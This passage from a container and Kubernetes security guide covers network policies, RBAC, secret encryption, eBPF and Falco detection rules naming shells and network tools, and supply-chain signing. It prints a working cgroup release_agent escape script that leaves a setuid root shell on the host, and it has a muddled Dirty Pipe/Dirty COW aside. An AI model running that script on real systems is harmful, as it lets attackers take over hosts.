### Network Policies & Service Mesh Integration

Kubernetes Network Policies define ingress and egress rules at the pod level. By default all traffic is allowed—the absence of any NetworkPolicy object is itself a security gap. A NetworkPolicy specifies a pod selector and rules that restrict traffic to and from selected pods. Rules filter by namespace, pod labels, IP CIDR blocks, and port/protocol.

A production-grade network policy pattern starts with a default-deny namespace baseline, then adds explicit allow rules per service:

```yaml
# Step 1: Default deny all ingress and egress in the namespace
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: production
spec:
  podSelector: {}       # selects all pods in the namespace
  policyTypes:
  - Ingress
  - Egress
---
# Step 2: Allow DNS egress (required for all pods — without this, DNS breaks)
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-dns-egress
  namespace: production
spec:
  podSelector: {}
  policyTypes:
  - Egress
  egress:
  - ports:
    - protocol: UDP
      port: 53
    - protocol: TCP
      port: 53
---
# Step 3: Allow frontend → backend on port 8080 within the namespace
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-frontend-to-backend
  namespace: production
spec:
  podSelector:
    matchLabels:
      tier: backend
  policyTypes:
  - Ingress
  ingress:
  - from:
    - namespaceSelector:
        matchLabels:
          kubernetes.io/metadata.name: production
      podSelector:
        matchLabels:
          tier: frontend
    ports:
    - protocol: TCP
      port: 8080
---
# Step 4: Allow backend → database on port 5432
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-backend-to-db
  namespace: production
spec:
  podSelector:
    matchLabels:
      tier: database
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          tier: backend
    ports:
    - protocol: TCP
      port: 5432
```

Network Policies are only as effective as the CNI plugin implementing them. The standard `kubenet` plugin does not enforce NetworkPolicy; a CNI plugin that explicitly supports policy enforcement (Calico, Cilium, Weave Net, Antrea) is required. **Cilium** in particular implements NetworkPolicy using eBPF programs loaded at the kernel level—bypassing iptables entirely—which provides better performance and richer L7 policy capabilities (e.g., restricting HTTP verbs and paths, not just ports).

**Service mesh integration:** A service mesh (Istio, Linkerd, Cilium Mesh) injects a sidecar proxy (typically Envoy or the mesh's own proxy) into each pod. All traffic flows through the proxy, which enforces mutual TLS (mTLS) authentication at the application layer, independent of Kubernetes NetworkPolicy (which operates at L3/L4).



The security benefit of mTLS is cryptographic identity, not just IP-based identity. Kubernetes NetworkPolicy operates on pod IP addresses, which can be spoofed in certain CNI configurations or during pod IP reuse scenarios. mTLS SPIFFE SVIDs are cryptographically bound to the service account identity and are verified on every connection, eliminating IP-spoofing-based lateral movement.

### RBAC and Secret Management

Role-Based Access Control in Kubernetes restricts which principals (users, groups, service accounts) can perform which verbs (`get`, `list`, `watch`, `create`, `update`, `patch`, `delete`, `deletecollection`, `escalate`, `bind`, `impersonate`) on which resources. RBAC objects: `Role` (namespace-scoped), `ClusterRole` (cluster-scoped), `RoleBinding` (namespace-scoped binding), `ClusterRoleBinding` (cluster-scoped binding).

A minimal-privilege service account for a typical application:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: app-service-account
  namespace: production
  annotations:
    # On AWS EKS: bind SA to an IAM role for AWS API access (IRSA)
    eks.amazonaws.com/role-arn: arn:aws:iam::123456789012:role/app-role
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-role
  namespace: production
rules:
  # Read own ConfigMaps for configuration; no write access
- apiGroups: [""]
  resources: ["configmaps"]
  resourceNames: ["app-config"]     # named resource restriction
  verbs: ["get"]
  # Read a specific secret (e.g., DB credentials) — prefer external secrets
- apiGroups: [""]
  resources: ["secrets"]
  resourceNames: ["db-credentials"]
  verbs: ["get"]
  # No access to pods, services, namespaces, nodes, or other sensitive resources
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: app-rolebinding
  namespace: production
subjects:
- kind: ServiceAccount
  name: app-service-account
  namespace: production
roleRef:
  kind: Role
  name: app-role
  apiGroup: rbac.authorization.k8s.io
```

Kubernetes secrets are stored in etcd as base64-encoded values (not encrypted) by default. Encryption at rest requires configuring the `kube-apiserver` with an `EncryptionConfiguration` resource. The `aescbc` provider uses AES-CBC with PKCS#7 padding; `aesgcm` uses AES-GCM (preferred for authenticated encryption); `kms` delegates to an external KMS provider (AWS KMS, GCP Cloud KMS, HashiCorp Vault via the KMS plugin interface).

```yaml
# /etc/kubernetes/encryption-config.yaml
# Passed to kube-apiserver via --encryption-provider-config flag
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  - configmaps          # encrypt configmaps too — they often hold sensitive data
  providers:
  - kms:
      name: aws-kms-provider
      endpoint: unix:///var/run/kmsplugin/socket.sock
      cachesize: 1000
      timeout: 3s
  # Fallback to identity (plaintext) for reads of pre-existing unencrypted secrets
  - identity: {}
```

The pattern of storing secrets directly in Kubernetes, even encrypted, creates a single point of compromise: anyone with API access to the secret (or access to etcd directly) can retrieve it. The production pattern is to use an **external secrets operator** that synchronizes secrets from an external store (HashiCorp Vault, AWS Secrets Manager, GCP Secret Manager, Azure Key Vault) into Kubernetes `Secret` objects at runtime. The external store enforces fine-grained access control, audit logging, and automatic rotation.

```yaml
# External Secrets Operator (ESO) — ExternalSecret CRD
# Pulls secret from AWS Secrets Manager, creates a Kubernetes Secret
apiVersion: external-secrets.io/v1beta1
kind: ExternalSecret
metadata:
  name: db-credentials
  namespace: production
spec:
  refreshInterval: "1h"              # re-sync from external store hourly
  secretStoreRef:
    name: aws-secretsmanager-store
    kind: ClusterSecretStore
  target:
    name: db-credentials             # name of the resulting Kubernetes Secret
    creationPolicy: Owner            # ESO owns the secret lifecycle
    deletionPolicy: Retain
    template:
      type: Opaque
      engineVersion: v2
      data:
        DB_PASSWORD: "{{ .password }}"
        DB_USERNAME: "{{ .username }}"
  data:
  - secretKey: password
    remoteRef:
      key: "production/app/db-credentials"
      property: password
  - secretKey: username
    remoteRef:
      key: "production/app/db-credentials"
      property: username
```

---

## 4. Runtime Threat Detection and Response

### eBPF-Based Instrumentation

Runtime threat detection works by monitoring process behavior and system call patterns to detect anomalies indicating compromise. Tools such as **Falco** (using kernel module or eBPF driver), **Tetragon** (Cilium's eBPF-based security observability), and **Tracee** (Aqua Security, eBPF-based) attach eBPF programs to kernel tracepoints and kprobes to capture syscall events, file access, network connections, and process execution with sub-millisecond latency.

An eBPF program is a verified, restricted bytecode program that runs in the kernel. The kernel JIT-compiles the program to native machine code after passing it through a verifier that proves the program terminates, does not access out-of-bounds memory, and does not call arbitrary kernel functions. eBPF programs can read kernel data structures via BPF helper functions, filter events, and send data to userspace via ring buffers (`BPF_MAP_TYPE_RINGBUF`) or perf event arrays.

```c
/*
 * Example eBPF program (libbpf CO-RE style) that detects
 * execution of suspicious binaries inside containers.
 * Attaches to the sched_process_exec tracepoint.
 *
 * Full production implementation would use BTF type information
 * for kernel struct access via BPF_CORE_READ().
 */
#include <linux/bpf.h>
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>
#include <bpf/bpf_core_read.h>

struct exec_event {
    __u32 pid;
    __u32 uid;
    __u64 cgroup_id;
    char  comm[16];
    char  filename[256];
};

/* Ring buffer for sending events to userspace */
struct {
    __uint(type, BPF_MAP_TYPE_RINGBUF);
    __uint(max_entries, 1 << 24);   /* 16 MiB ring buffer */
} exec_events SEC(".maps");

/* Map of container cgroup IDs to watch (populated by userspace) */
struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __uint(max_entries, 1024);
    __type(key,   __u64);
    __type(value, __u8);
} watched_cgroups SEC(".maps");

/* Suspicious binary names that should not appear in production containers */
static const char * const suspicious[] = {
    "bash", "sh", "dash", "zsh", "python", "python3",
    "perl", "ruby", "nc", "ncat", "nmap", "curl", "wget",
};

SEC("tracepoint/sched/sched_process_exec")
int detect_suspicious_exec(struct trace_event_raw_sched_process_exec *ctx) {
    __u64 cgroup_id = bpf_get_current_cgroup_id();

    /* Only watch processes in known container cgroups */
    __u8 *watched = bpf_map_lookup_elem(&watched_cgroups, &cgroup_id);
    if (!watched) return 0;

    struct exec_event *event = bpf_ringbuf_reserve(&exec_events,
                                                    sizeof(*event), 0);
    if (!event) return 0;

    event->pid       = bpf_get_current_pid_tgid() >> 32;
    event->uid       = bpf_get_current_uid_gid() & 0xFFFFFFFF;
    event->cgroup_id = cgroup_id;
    bpf_get_current_comm(event->comm, sizeof(event->comm));

    /* Read filename from the tracepoint context */
    bpf_core_read_str(event->filename, sizeof(event->filename),
                      ctx->filename);

    bpf_ringbuf_submit(event, 0);
    return 0;
}

char LICENSE[] SEC("license") = "GPL";
```

Falco uses a YAML-based rule language that is evaluated against a stream of kernel events. The rule engine compiles rule conditions to efficient matching trees. Each rule specifies a condition (using Falco's expression language over event fields), an output format, and a priority level.

```yaml
# Falco rules for production container monitoring
# These rules assume a default-deny philosophy:
# production containers run a single known binary, no shells.

- rule: Shell Spawned in Production Container
  desc: >
    A shell binary was executed inside a container labeled 'production'.
    This is almost always an indicator of compromise or unauthorized access.
    Legitimate containers do not spawn shells at runtime.
  condition: >
    spawned_process
    and container
    and container.label[environment] = "production"
    and proc.name in (shell_binaries)
    and not proc.pname in (known_shell_parents)
  output: >
    Shell spawned in production container
    (user=%user.name user_uid=%user.uid command=%proc.cmdline
     parent=%proc.pname container_id=%container.id
     container_name=%container.name image=%container.image.repository:%container.image.tag
     k8s_pod=%k8s.pod.name k8s_ns=%k8s.ns.name)
  priority: CRITICAL
  tags: [container, shell, T1059]

- rule: Container Attempting Namespace Escape via /proc
  desc: >
    A process inside a container accessed /proc/sysrq-trigger,
    /proc/sys/kernel/core_pattern, or similar proc filesystem paths
    that are vectors for container escape or host manipulation.
  condition: >
    open_write
    and container
    and (fd.name startswith "/proc/sys/kernel/"
         or fd.name = "/proc/sysrq-trigger"
         or fd.name startswith "/proc/acpi/")
  output: >
    Potential container escape via /proc
    (user=%user.name file=%fd.name proc=%proc.cmdline
     container=%container.id pod=%k8s.pod.name)
  priority: CRITICAL
  tags: [container, escape, T1611]

- rule: Unexpected Outbound Connection from Container
  desc: >
    A container established an outbound connection to an unexpected
    destination. Combined with egress NetworkPolicy, this catches
    connections that bypass Kubernetes-level controls
    (e.g., via raw sockets or iptables manipulation).
  condition: >
    outbound
    and container
    and container.label[environment] = "production"
    and not (fd.sip in (allowed_egress_ips)
             or fd.sport in (allowed_egress_ports))
  output: >
    Unexpected outbound connection
    (user=%user.name connection=%fd.name
     container=%container.name pod=%k8s.pod.name)
  priority: WARNING
  tags: [network, exfiltration, T1041]

# Macro definitions
- macro: shell_binaries
  condition: (proc.name in (bash, sh, dash, zsh, ash, ksh, fish, tcsh, csh))

- macro: known_shell_parents
  condition: (proc.pname in (runc, containerd-shim, tini))

- list: allowed_egress_ips
  items: ["10.0.0.0/8", "172.16.0.0/12", "192.168.0.0/16"]

- list: allowed_egress_ports
  items: [443, 80, 5432, 6379]
```

### Container Escapes: Exploitation Patterns and Mitigations

Container escapes fall into several mechanistic categories. Understanding the mechanism is essential for constructing effective mitigations.

**Kernel vulnerability exploits:** Target bugs in the Linux kernel affecting namespaces, cgroups, or the VFS layer. CVE-2022-0847 ("Dirty Pipe") allowed overwriting arbitrary read-only file-backed memory pages by exploiting a missing initialization flag in the pipe buffer. A container process could use this to overwrite a setuid binary on the host filesystem (accessible via the overlay filesystem's lower layers), not by escaping the namespace but by exploiting a kernel memory coherence bug that bypassed copy-on-write semantics. The correct name for the original Dirty COW vulnerability is **CVE-2016-5195**, not CVE-2022-0847—these are distinct bugs with the same class of root cause. Mitigation: kernel patching and continuous vulnerability scanning of host kernel versions.

**Privileged container escapes:** A container running with `privileged: true` or with `CAP_SYS_ADMIN` has near-complete access to the host. The standard escape technique: mount the host's cgroup filesystem (`mount -t cgroup -o rdma cgroup /tmp/cgroup`), use the cgroup `release_agent` mechanism to execute an arbitrary command on the host when the last task leaves a cgroup. This exploit, known as the "cgroup release_agent escape" (documented by Felix Wilhelm at Google Project Zero), works because the `release_agent` is executed by the host kernel as root, outside any namespace. Mitigation: never run `privileged: true`; drop `CAP_SYS_ADMIN` from all containers.

```bash
# The cgroup release_agent escape — illustrating why CAP_SYS_ADMIN is dangerous.
# This runs ONLY inside a container with --privileged or CAP_SYS_ADMIN.
# DO NOT execute outside a controlled security research environment.

# Mount the host's cgroup filesystem
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp

# Create a child cgroup
mkdir /tmp/cgrp/child

# Enable the notify_on_release mechanism for the child cgroup
echo 1 > /tmp/cgrp/child/notify_on_release

# Write a payload to execute when the cgroup is emptied
# The release_agent path is resolved on the HOST filesystem
host_path=$(sed -n 's/.*\soverlay\s.*\slowerdir=\([^,]*\).*/\1/p' /proc/mounts | head -1)
echo "#!/bin/sh
cp /bin/bash /tmp/bash_copy; chmod u+s /tmp/bash_copy" > "${host_path}/cmd"
chmod +x "${host_path}/cmd"

# Point the host's release_agent at our payload
echo "${host_path}/cmd" > /tmp/cgrp/release_agent

# Trigger the release_agent by creating and removing a process from child cgroup
sh -c "echo \$\$ > /tmp/cgrp/child/cgroup.procs; exit"

# Wait for host kernel to execute our payload
sleep 2

# Now /tmp/bash_copy on the HOST is a setuid root shell
```

**CVE-2019-5736 (runc file descriptor leak):** The runc binary opened `/proc/self/exe` to re-execute itself during container initialization. A malicious container could replace the symbolic link target before runc opened the fd, causing runc to open and execute an attacker-controlled binary with host-root privileges. The fix moved to opening runc via a memfd (anonymous memory-backed file) rather than the filesystem path. Mitigation: run runc 1.0-rc6 or later; use rootless containers (runc runs as the user, not root).

**Device file exposure:** If a container is granted access to `/dev/mem`, `/dev/kmem`, or `/dev/port`, it can read and write arbitrary physical memory or kernel memory. If a container is granted access to raw block devices (`/dev/sda`), it can read all data on those devices, including data belonging to other containers' filesystem layers. The cgroup device controller (or eBPF device program in cgroups v2) must deny these devices by default.

**Kernel module loading:** A container with `CAP_SYS_MODULE` can call `init_module(2)` or `finit_module(2)` to load arbitrary kernel modules. A malicious kernel module runs in ring 0, with full kernel privileges, and can bypass all namespace and cgroup isolation. Seccomp blocks `init_module`, `finit_module`, and `delete_module` by default in the Docker profile.

**Shared kernel as the fundamental constraint:** All containers on a host share the same kernel instance. A kernel vulnerability affects all containers simultaneously, regardless of namespace isolation. Kata Containers (OCI-compatible, backed by QEMU or Firecracker microVMs) run each container in its own lightweight VM with an independent kernel. This eliminates kernel-level container escapes at the cost of a ~50–100 MB memory overhead per container and slightly higher startup latency. gVisor (Google's user-space kernel) interposes on system calls and implements a subset of the Linux kernel API in user space, further reducing the kernel attack surface at the cost of syscall overhead.

### Detection-Response Orchestration

Modern container platforms integrate threat detection with automated response through event-driven pipelines.



```python
"""
Response controller invoked by Falco webhook via Falcosidekick.
Implements automated triage and response for container security events.

Production implementation would use proper async frameworks,
circuit breakers, and structured logging. This demonstrates
the core logic.
"""
from __future__ import annotations

import json
import logging
import time
from dataclasses import dataclass
from typing import Optional

from kubernetes import client, config
from kubernetes.client.rest import ApiException

logger = logging.getLogger(__name__)


@dataclass
class FalcoAlert:
    priority: str
    rule: str
    output: str
    output_fields: dict
    hostname: str
    time: str

    @classmethod
    def from_webhook(cls, payload: dict) -> "FalcoAlert":
        return cls(
            priority=payload["priority"],
            rule=payload["rule"],
            output=payload["output"],
            output_fields=payload.get("output_fields", {}),
            hostname=payload.get("hostname", ""),
            time=payload.get("time", ""),
        )

    @property
    def pod_name(self) -> Optional[str]:
        return self.output_fields.get("k8s.pod.name")

    @property
    def namespace(self) -> Optional[str]:
        return self.output_fields.get("k8s.ns.name")

    @property
    def container_id(self) -> Optional[str]:
        return self.output_fields.get("container.id")


def respond_to_threat(alert: FalcoAlert) -> None:
    """
    Automated response to a Falco security alert.

    Response actions are proportional to priority:
    - CRITICAL: Immediate pod termination + network isolation
    - WARNING:  Network isolation only + alert
    - INFO:     Log and alert only
    """
    config.load_incluster_config()   # loads SA token from /var/run/secrets/

    if alert.priority not in ("CRITICAL", "WARNING", "ERROR"):
        logger.info("Low-priority alert, logging only: %s", alert.rule)
        return

    if not alert.pod_name or not alert.namespace:
        logger.warning("Alert missing pod/namespace context: %s", alert.output)
        return

    logger.warning(
        "Security alert: rule=%s priority=%s pod=%s ns=%s",
        alert.rule, alert.priority, alert.pod_name, alert.namespace
    )

    if alert.priority == "CRITICAL":
        _terminate_pod(alert.namespace, alert.pod_name)

    _apply_network_isolation(alert.namespace, alert.pod_name, alert.container_id)
    _emit_audit_event(alert)


def _terminate_pod(namespace: str, pod_name: str) -> None:
    """
    Immediately terminate a compromised pod with zero grace period.
    The pod is force-deleted; Kubernetes will not wait for SIGTERM
    handlers. This is intentional: a compromised process should not
    be allowed to run cleanup code.
    """
    v1 = client.CoreV1Api()
    try:
        v1.delete_namespaced_pod(
            name=pod_name,
            namespace=namespace,
            body=client.V1DeleteOptions(grace_period_seconds=0),
        )
        logger.info("Terminated compromised pod: %s/%s", namespace, pod_name)
    except ApiException as e:
        if e.status == 404:
            logger.info("Pod already gone: %s/%s", namespace, pod_name)
        else:
            logger.error("Failed to terminate pod %s/%s: %s", namespace, pod_name, e)
            raise


def _apply_network_isolation(namespace: str, pod_name: str,
                              container_id: Optional[str]) -> None:
    """
    Apply a deny-all NetworkPolicy scoped to the specific pod
    via a unique label. This isolates the pod even if the terminate
    call above fails (e.g., race condition, permission gap).
    """
    networking_v1 = client.NetworkingV1Api()
    isolation_label = {"security-incident": "isolated"}

    # First, label the pod so the NetworkPolicy selector matches it
    v1 = client.CoreV1Api()
    try:
        v1.patch_namespaced_pod(
            name=pod_name,
            namespace=namespace,
            body={"metadata": {"labels": isolation_label}},
        )
    except ApiException as e:
        logger.warning("Could not label pod for isolation: %s", e)

    policy_name = f"isolate-{pod_name}"
    policy = client.V1NetworkPolicy(
        metadata=client.V1ObjectMeta(
            name=policy_name,
            namespace=namespace,
            annotations={
                "security.company.com/incident-time": str(time.time()),
                "security.company.com/container-id": container_id or "unknown",
            },
        ),
        spec=client.V1NetworkPolicySpec(
            pod_selector=client.V1LabelSelector(
                match_labels=isolation_label
            ),
            policy_types=["Ingress", "Egress"],
            # Empty ingress/egress = deny all
        ),
    )

    try:
        networking_v1.create_namespaced_network_policy(
            namespace=namespace, body=policy
        )
        logger.info("Applied network isolation to %s/%s", namespace, pod_name)
    except ApiException as e:
        if e.status == 409:  # Already exists
            logger.info("Isolation policy already applied for %s", pod_name)
        else:
            logger.error("Failed to apply network isolation: %s", e)
            raise


def _emit_audit_event(alert: FalcoAlert) -> None:
    """
    Emit a structured security event to the SIEM/audit log.
    In production, this would write to a Kafka topic or
    directly to Splunk/Datadog via their ingest APIs.
    """
    event = {
        "event_type":  "container_security_incident",
        "severity":    alert.priority,
        "rule":        alert.rule,
        "pod":         alert.pod_name,
        "namespace":   alert.namespace,
        "container_id": alert.container_id,
        "raw_output":  alert.output,
        "timestamp":   alert.time,
        "response_actions": ["pod_terminated", "network_isolated"],
    }
    logger.info("SECURITY_AUDIT: %s", json.dumps(event))
```

---

## 5. Supply Chain Security

### Image Scanning and Vulnerability Management

Container image vulnerability scanning inspects image layers for known vulnerabilities in OS packages and language-runtime dependencies. A scanner (Trivy, Grype, Snyk, Clair) extracts package metadata from the image manifest and compares each package against a vulnerability database (NVD, GitHub Advisory Database, OS vendor advisories). For each finding, the report includes CVE identifier, package name, installed version, fixed version, and severity (CVSS score).

Scanning occurs at multiple pipeline stages:



A critical limitation: vulnerability scanning detects known CVEs with published database entries. Zero-day vulnerabilities have zero detection probability by scanners. Additionally, database entries may lag a vulnerability's public disclosure by days to weeks, depending on the database's update cadence. Trivy and Grype use the publicly available vulnerability databases; commercial scanners (Snyk, Palo Alto Prisma Cloud) offer faster update latency by supplementing with vendor-specific advisories.

The practical guidance for scanner false positives: a vulnerable package is not exploitable if the vulnerable code path is not reachable by the application. Trivy supports `.trivyignore` files for suppressing known false positives, but these suppressions require documented justification and periodic review.

### Image Signing and Supply Chain Attestation with Sigstore

Image signing provides cryptographic proof that an image was produced by a specific identity and has not been modified since signing. The **Sigstore** project provides the ecosystem: **Cosign** for signing/verifying, **Rekor** as a transparency log (append-only, tamper-evident), and **Fulcio** as a short-lived certificate authority.

```bash
# Sign a container image using Cosign with keyless signing
# (Fulcio CA issues a short-lived cert bound to OIDC identity)
# Suitable for CI/CD where OIDC tokens are available from the pipeline

# In GitHub Actions, the OIDC token is provided automatically
cosign sign \
    --oidc-issuer https://token.actions.githubusercontent.com \
    gcr.io/myproject/myapp:v1.2.3@sha256:<digest>

# The signature is stored as an OCI artifact in the same registry:
# gcr.io/myproject/myapp:sha256-<digest>.sig
# The signing event is recorded in the public Rekor transparency log.

# Verify the image before deployment
cosign verify \
    --certificate-oidc-issuer https://token.actions.githubusercontent.com \
    --certificate-identity https://github.com/myorg/myrepo/.github/workflows/build.yml@refs/heads/main \
    gcr.io/myproject/myapp:v1.2.3@sha256:<digest>

# Generate and attach a vulnerability scan attestation
trivy image --format cyclonedx gcr.io/myproject/myapp:v1.2.3 > sbom.json

cosign attest \
    --predicate sbom.json \
    --type cyclonedx \
    gcr.io/myproject/myapp:v1.2.3@sha256:<digest>

# Verify the attestation exists and was signed by the CI identity
cosign verify-attestation \
    --type cyclonedx \
    --certificate-oidc-issuer https://token.actions.githubusercontent.com \
    --certificate-identity https://github.com/myorg/myrepo/.github/workflows/build.yml@refs/heads/main \
    gcr.io/myproject/myapp:v1.2.3@sha256:<digest> \
    | jq '.payload | @base64d | fromjson | .predicate.components | length'
```

A **Kyverno** policy that enforces image signing at admission time:

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: verify-image-signatures
  annotations:
    policies.kyverno.io/title: Verify Image Signatures
    policies.kyverno.io/description: >
      Rejects pods whose container images are not signed by the
      organization's CI/CD pipeline via Cosign/Sigstore.
      Images must have a valid signature and a vulnerability scan
      attestation with no critical CVEs.
spec:
  validationFailureAction: Enforce
  background: false
  rules:
  - name: verify-cosign-signature
    match:
      any:
      - resources:
          kinds: [Pod]
          namespaces: [production, staging]
    verifyImages:
    - imageReferences:
      - "gcr.io/myproject/*"
      attestors:
      - count: 1
        entries:
        - keyless:
            subject: "https://github.com/myorg/myrepo/.github/workflows/build.yml@refs/heads/main"
            issuer:  "https://token.actions.githubusercontent.com"
            rekor:
              url: https://rekor.sigstore.dev
      attestations:
      - predicateType: https://cyclonedx.org/bom
        conditions:
        - all:
          # Ensure no critical vulnerabilities in the SBOM attestation
          - key: "{{ components[].vulnerabilities[].ratings[].severity }}"
            operator: AllNotIn
            value: ["critical", "Critical", "CRITICAL"]
```

### SBOM Generation and Dependency Tracking

A Software Bill of Materials (SBOM) is a machine-readable inventory of all components in a software artifact. SBOM formats: **SPDX** (Linux Foundation, SPDX 2.3 is the NTIA minimum elements standard) and **CycloneDX** (OWASP, richer vulnerability metadata). Both are supported by NTIA and are required for US federal software supply chain compliance (Executive Order 14028).

```bash
# Generate an SBOM in CycloneDX JSON format using Syft
syft gcr.io/myproject/myapp:v1.2.3 \
    -o cyclonedx-json=sbom-cyclonedx.json \
    -o spdx-json=sbom-spdx.json

# Match SBOM against vulnerability database using Grype
grype sbom:sbom-cyclonedx.json \
    --fail-on critical \
    --output table

# When a new CVE is disclosed, scan all deployed SBOMs:
# (pseudo-code for a CI/CD job that runs daily)
for image in $(kubectl get pods -A -o jsonpath='{range .items[*]}{.spec.containers[*].image}{"\n"}{end}' | sort -u); do
    cosign verify-attestation --type cyclonedx "${image}" 2>/dev/null \
        | jq -r '.payload | @base64d | fromjson | .predicate' > /tmp/sbom.json \
        && grype sbom:/tmp/sbom.json --fail-on critical \
        && echo "PASS: ${image}" \
        || echo "FAIL: ${image} — critical CVE found"
done
```

### Build System Hardening and SLSA Provenance

The build system is a critical trust boundary. A compromised CI/CD pipeline can inject malicious code into every image it produces—a force-multiplier attack. The **SLSA framework** (Supply-chain Levels for Software Artifacts) defines four levels of provenance assurance:

- **SLSA 1:** Provenance exists (build script available).
- **SLSA 2:** Signed provenance from a hosted CI/CD system.
- **SLSA 3:** Non-falsifiable provenance; build runs in an isolated, ephemeral environment; the build service (not the developer) generates the provenance.
- **SLSA 4:** Two-person review for all code changes; hermetic, reproducible builds.

```yaml
# GitHub Actions workflow generating SLSA Level 3 provenance
# using slsa-github-generator
name: Build and Attest

on:
  push:
    tags: ['v*']

permissions:
  contents: read
  id-token: write       # required for OIDC token (Cosign keyless signing)
  packages: write       # required for pushing to GHCR

jobs:
  build:
    runs-on: ubuntu-latest
    outputs:
      image-digest: ${{ steps.build.outputs.digest }}
    steps:
    - uses: actions/checkout@v4

    - name: Build and push (no latest tag — always use digest references)
      id: build
      uses: docker/build-push-action@v5
      with:
        context: .
        push: true
        tags: ghcr.io/${{ github.repository }}:${{ github.ref_name }}
        # Provenance and SBOM baked into the OCI manifest
        provenance: true
        sbom: true

  provenance:
    needs: [build]
    # slsa-github-generator runs in its own isolated workflow,
    # preventing the calling workflow from influencing provenance generation
    uses: slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml@v1.10.0
    with:
      image: ghcr.io/${{ github.repository }}
      digest: ${{ needs.build.outputs.image-digest }}
    secrets: inherit

  sign:
    needs: [build, provenance]
    runs-on: ubuntu-latest
    steps:
    - name: Keyless sign with Cosign
      run: |
        cosign sign --yes \
          "ghcr.io/${{ github.repository }}@${{ needs.build.outputs.image-digest }}"
```

---

## 6. Operational Patterns and Production Hardening

### Zero-Trust Architecture in Container Clusters

Zero-trust security rejects the perimeter security model. No entity (user, service, container) is trusted by default; every request must be authenticated, authorized, and encrypted regardless of network location. In a container cluster, zero-trust requires controls at every layer:



The quantifiable security value of zero-trust is blast radius reduction. If an attacker compromises one container, they must independently compromise the mTLS certificate authority (or steal the pod's SVID) to impersonate another service, independently bypass RBAC to interact with the Kubernetes API, independently traverse the NetworkPolicy allowlist, and independently obtain secrets from the external KMS. Each layer imposes a distinct set of credentials, permissions, and detection opportunities. The mean time to lateral movement (MTTLM) increases from minutes to days under a well-implemented zero-trust architecture.

### Multi-Tenancy Isolation

Hard multi-tenancy (multiple untrusted tenants on shared infrastructure) requires isolation stronger than what standard Kubernetes namespaces provide. Namespaces are a logical boundary; they do not prevent kernel-level attacks.

The multi-tenancy isolation stack:

1. **Namespace-level:** RBAC, NetworkPolicy, ResourceQuota, and LimitRange per tenant namespace. This prevents logical cross-tenant access.

2. **Node-level:** Node affinity/taints to dedicate nodes to tenants. This prevents one tenant's compromised container from attacking another tenant's container on the same node via shared kernel state or timing side-channels (Spectre, L1TF).

3. **Kernel-level:** Kata Containers or gVisor for untrusted tenants. Each container (or pod) runs in its own VM kernel, so a kernel exploit in one tenant's container does not affect other tenants' kernels.

4. **Storage:** Per-tenant storage classes with encrypted volumes using tenant-specific KMS keys. This prevents cross-tenant data access even if the storage driver has a vulnerability.

```yaml
# Namespace resource quota for multi-tenant isolation
apiVersion: v1
kind: ResourceQuota
metadata:
  name: tenant-quota
  namespace: tenant-acme
spec:
  hard:
    requests.cpu:    "10"
    requests.memory: "20Gi"
    limits.cpu:      "20"
    limits.memory:   "40Gi"
    persistentvolumeclaims: "10"
    services:        "5"
    secrets:         "50"
    configmaps:      "50"
    pods:            "100"
    # Prevent privilege escalation vectors
    count/replicationcontrollers: "0"   # force use of Deployments
---
# LimitRange: enforce minimum and maximum resource requests
apiVersion: v1
kind: LimitRange
metadata:
  name: tenant-limits
  namespace: tenant-acme
spec:
  limits:
  - type: Container
    default:          { cpu: "200m", memory: "256Mi" }
    defaultRequest:   { cpu: "100m", memory: "128Mi" }
    max:              { cpu: "4",    memory: "8Gi"   }
    min:              { cpu: "50m",  memory: "64Mi"  }
  - type: PersistentVolumeClaim
    max:   { storage: "100Gi" }
    min:   { storage: "1Gi"   }
---
# Node selector and toleration to pin tenant to dedicated nodes
# (Nodes are tainted: kubectl taint nodes node1 tenant=acme:NoSchedule)
apiVersion: v1
kind: Pod
metadata:
  name: tenant-workload
  namespace: tenant-acme
spec:
  nodeSelector:
    tenant: acme
  tolerations:
  - key: tenant
    operator: Equal
    value: acme
    effect: NoSchedule
  runtimeClassName: kata-containers    # Kata Containers for strong isolation
  containers:
  - name: app
    image: gcr.io/acme/app:v1.0.0
```

### Encryption at Rest and in Transit

**At rest:** Kubernetes etcd stores all cluster state, including secrets. The `EncryptionConfiguration` file (shown in Section 3) enables encryption. The KMS provider is preferred over static key providers (`aescbc`, `aesgcm`) because static key providers store the data encryption key (DEK) on disk alongside the encrypted data—an attacker who reads the etcd backup and the encryption config file has both the ciphertext and the key. The KMS provider uses envelope encryption: each secret is encrypted with a unique DEK, which is itself encrypted by the KMS master key. The DEK is stored alongside the ciphertext, but the master key never leaves the KMS.

Persistent Volume encryption depends on the storage provider: AWS EBS supports AES-256 via AWS KMS; GCP Persistent Disks support AES-256 via Google Cloud KMS; Azure Disk supports AES-256 via Azure Key Vault. In all cases, enable customer-managed keys (CMK) rather than provider-managed keys, to retain control over key access and rotation.

**In transit:** All Kubernetes API server communication must use TLS (the API server presents a certificate to clients; clients verify via the CA bundle in the kubeconfig). The kubelet API (port 10250) must be authenticated and use TLS; unauthenticated kubelet API access is a critical vulnerability that allowed arbitrary command execution in clusters before Kubernetes 1.14 changed the default.

For pod-to-pod communication, service mesh mTLS provides encryption. Without a service mesh, pod-to-pod traffic is unencrypted within the cluster network. This is acceptable for many threat models (the cluster network is trusted) but not for environments where node-level compromise or cloud network-level eavesdropping is a concern.

### Compliance and Audit Logging

The Kubernetes audit log records every API server request with who made it, what they requested, what the API server returned, and what object was modified. Audit log policy is configured via the `--audit-policy-file` flag on `kube-apiserver`.

```yaml
# Kubernetes audit policy
